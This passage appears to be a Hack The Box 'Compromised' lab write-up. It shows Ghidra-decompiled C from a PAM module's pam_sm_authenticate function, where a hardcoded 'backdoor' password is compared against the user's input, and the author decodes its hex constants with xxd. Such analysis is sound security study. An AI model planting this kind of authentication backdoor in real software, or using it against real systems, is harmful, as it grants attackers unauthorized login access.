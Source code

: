 ![](../../.gitbook/assets/12-ghidra-backdoor.png)

```c
  iVar2 = pam_get_user(pamh,&name,0);
  if (iVar2 == 0) {
    if ((name != (char *)0x0) && ((*name - 0x2bU & 0xfd) != 0)) {
      iVar3 = _unix_blankpasswd(pamh,ctrl,name);
      if (iVar3 == 0) {
        prompt1 = (char *)dcgettext("Linux-PAM","Password: ",5);
        iVar2 = _unix_read_password(pamh,ctrl,(char *)0x0,prompt1,(char *)0x0,"-UN*X-PASS",&p);
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
```

After searching for a long time and questioning whether I was in a rabbit hole, I found what I needed in the `pam_sm_authenticate` function. The c code decompiled by ghidra showed a variable named `backdoor` which stood out to me immediately.

```text
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x4533557e656b6c7a' | xxd -r 
E3U~eklz                                                                                                        
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x2d326d3238766e' | xxd -r
-2m28vn
```
